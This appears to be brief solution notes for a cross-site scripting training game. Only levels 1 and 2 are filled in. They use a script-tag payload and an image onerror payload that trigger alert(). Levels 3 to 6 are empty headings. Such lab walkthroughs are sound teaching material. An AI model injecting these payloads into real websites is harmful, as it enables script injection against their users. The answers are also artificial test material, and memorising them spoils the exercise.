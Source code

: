 # https://xss-game.appspot.com/

## Level 1
Insert
`<script>alert();</script>`
inside the input text box.

## Level 2
Insert
`<img src="asdgf.png" onerror="javascript:alert();" />`
inside the input text box.

## Level 3

## Level 4

## Level 5

## Level 6

